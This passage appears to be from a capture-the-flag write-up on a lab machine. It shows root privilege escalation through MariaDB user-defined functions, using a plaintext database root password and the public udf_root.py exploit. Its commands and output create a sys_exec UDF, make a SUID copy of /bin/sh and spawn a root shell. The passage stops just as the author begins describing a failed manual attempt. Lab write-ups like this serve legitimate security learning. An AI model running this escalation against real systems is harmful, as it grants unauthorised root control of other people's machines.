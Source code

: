 Here's an article to follow: https://medium.com/r3d-buck3t/privilege-escalation-with-mysql-user-defined-functions-996ef7d5ceaf

Keep in mind that we have access to the database with creds


```bash
svc@noter:/tmp$ mysql -u root -p'Nildogg36'
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 2770
Server version: 10.3.32-MariaDB-0ubuntu0.20.04.1 Ubuntu 20.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> 
```
I tried to exploit it manually but it didn't work out for me, so I tried this exploit:

https://github.com/d7x/udf_root

```bash

(remote) svc@noter:/tmp$ python2.7 udf_root.py --username root --password Nildogg36
Plugin dir is /usr/lib/x86_64-linux-gnu/mariadb19/plugin/
Trying to create a udf library...
UDF library crated successfully: /usr/lib/x86_64-linux-gnu/mariadb19/plugin/udf5235.so
Trying to create sys_exec...
Checking if sys_exec was crated...
sys_exec was found: *************************** 1. row ***************************
name: sys_exec
 ret: 2
  dl: udf5235.so
type: function

Generating a suid binary in /tmp/sh...
+-------------------------------------------------------------------------+
| sys_exec('cp /bin/sh /tmp/; chown root:root /tmp/sh; chmod +s /tmp/sh') |
+-------------------------------------------------------------------------+
|                                                                       0 |
+-------------------------------------------------------------------------+
Trying to spawn a root shell...
$ ls
puppeteer_dev_chrome_profile-0wSzCq
puppeteer_dev_chrome_profile-7Qtr0l
puppeteer_dev_chrome_profile-EMfYKI
puppeteer_dev_chrome_profile-Jrd9Uv
sh
systemd-private-055ec5aa58fc4854a8247e659ec73edf-systemd-logind.service-yBhtQh
systemd-private-055ec5aa58fc4854a8247e659ec73edf-systemd-resolved.service-9tEE4h
systemd-private-055ec5aa58fc4854a8247e659ec73edf-systemd-timesyncd.service-e0o1ui
udf_root.py
vmware-root_751-4290559920
$ /tmp/sh -p
$ whoami
root
$ 

```
If you want to try what I failed to do, here's what I tried: 
